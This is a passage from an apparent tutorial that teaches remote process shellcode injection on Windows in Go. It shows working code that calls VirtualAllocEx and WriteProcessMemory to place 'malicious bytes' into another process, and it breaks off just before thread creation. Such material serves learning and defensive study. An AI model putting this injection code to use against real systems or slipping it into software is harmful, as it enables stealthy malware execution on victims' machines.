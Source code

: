 ```go
    os.Exit(0)
  }
}
```

> Notice that you must have the right permissisons to get process handle
{: .prompt-warning}

Now we allocate the memory buffer so then we can write our malicious bytes. To do this we use `VirtualAllocEx`

> Note the "Ex" at the end of the function which means that it can allocate memory on remote processes
{: .prompt-tip}

```go
func main(){
  ...

  VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")

  addr, _, _ := VirtualAllocEx.Call(
    uintptr(procHandle), // Process handle
    0,
    uintptr(len(shellcode)), // Shellcode length
    windows.MEM_COMMIT | windows.MEM_RESERVE,
    windows.PAGE_READWRITE, // memory permissions
  )

  if addr == 0 { // Handle error
    fmt.Println("An error has ocurred with VirtualAllocEx!")
    os.Exit(0)
  }
}
```

Then we use `WriteProcessMemory` call to write the shellcode into ***RW*** allocated process memory space

```go
func main(){
  ...

  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")

  WriteProcessMemory.Call(
    uintptr(procHandle), // Process handle
    addr, // VirtualAllocEx return value
    (uintptr)(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)), // Shellcode length
  )
```

At this point we use `CreateRemoteThreadEx` call to create a new thread in the especified process which will finally execute the shellcode:
